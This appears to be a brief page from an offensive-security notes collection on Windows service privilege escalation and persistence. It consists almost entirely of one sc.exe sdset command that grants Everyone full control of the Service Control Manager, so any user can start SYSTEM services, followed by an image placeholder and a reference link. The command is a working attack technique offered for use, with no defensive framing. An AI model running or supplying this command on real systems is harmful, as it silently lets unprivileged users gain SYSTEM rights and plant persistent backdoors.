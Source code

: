# Service Privilege Escalation / Persistence

Modification of the security descriptor on the service manager allowing for anyone to start SYSTEM services.&#x20;

```powershell
sc.exe sdset scmanager D:(A;;KA;;;WD)
```

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### References

{% embed url="https://twitter.com/0gtweet/status/1628720819537936386" %}
